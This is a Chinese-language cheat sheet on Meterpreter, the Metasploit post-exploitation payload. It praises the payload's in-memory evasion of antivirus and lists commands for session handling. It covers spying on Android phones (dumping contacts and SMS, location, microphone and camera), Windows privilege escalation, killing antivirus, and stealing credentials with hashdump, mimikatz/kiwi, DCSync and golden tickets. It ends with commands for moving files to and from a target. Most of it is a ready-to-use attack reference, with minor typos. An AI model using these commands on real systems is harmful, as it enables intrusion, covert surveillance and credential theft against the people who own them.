 # 一、 Meterpreter是什么

Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。

# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令

## 1.基本命令

help# 查看Meterpreter帮助

background#返回，把meterpreter后台挂起
bgkill# 杀死一个 meterpreter 脚本
bglist#提供所有正在运行的后台脚本的列表
bgrun#作为一个后台线程运行脚本
channel#显示活动频道
sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
sesssions -k  number #与会话进行交互
close# 关闭通道
exit# 终止 meterpreter 会话
quit# 终止 meterpreter 会话
interact id #切换进一个信道
 run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
 irb# 进入 Ruby 脚本模式
 read# 从通道读取数据write# 将数据写入到一个通道
 run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
use# 加载 meterpreter 的扩展
load/use#加载模块
 Resource#执行一个已有的rc脚本

### 简要使用流程

比如使用background返回后台，但是可以使用sessions查看后台会话。

![image-20240916172724461](12 meterpreter介绍/image-20240916172724461.png)	

也可重新切换回这个session.

![image-20240916172757318](12 meterpreter介绍/image-20240916172757318.png)	

## 2  常用命令

### 2.1 针对安卓手机的一些命令

获取手机通讯录： dump_contacts

获取短信记录：dump_sms

控制实验手机发短信：send_sms -d 15330252525 -t
"hello"

获取实验手机GPS定位信息：geolocate

获取实验手机Wi-Fi定位信息：wlan_geolocate

控制实验手机录音：record_mic
-d  5

获取实验手机相机设备：webcam_list

控制实验手机拍照 ：webcam_snap

直播实验手机摄像头：webcam_stream

### 2.2 针对Windows的一些命令

查看进程：ps

查看当前进程号：getpid

查看系统信息：sysinfo

查看目标机是否为虚拟机：run
post/windows/gather/checkvm

查看完整网络设置：route

查看当前权限：getuid

自动提权：getsystem

关闭杀毒软件：run post/windows/manage/killav

启动远程桌面协议：run post/windows/manage/enable_rdp

列举当前登录的用户：run post/windows/gather/enum_logged_on_users

查看当前应用程序：run post/windows/gather/enum_applications

抓取目标机的屏幕截图：load espia ； screengrab

获取相机设备：webcam_list

控制拍照 ：webcam_snap

直播摄像头：webcam_stream

控制录音：record_mic

查看当前处于目标机的那个目录：pwd

查看当前目录：getlwd

导出当前用户密码哈希  run hashdump

用户名：SID：LM哈希：NTLM哈希:::

也可以使用下面这个命令导出 权限更高   run windows/gather/smart_hashdump

抓取自动登录的用户名和密码  run windows/gather/credentials/windows_autologin

直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）

首选终端输入  load kiwi    加载kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

## 3.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
edit c:\boot.ini  # 编辑文件
getlwd#打印本地目录
getwd#打印工作目录
lcd#更改本地目录
ls#列出在当前目录中的文件列表
lpwd#打印本地目录
pwd#输出工作目录
cd c:\\ #进入目录文件下
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
mv#修改目标主机上的文件名
search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*.bat c:\\xamp\\
enumdesktops     #用户登录数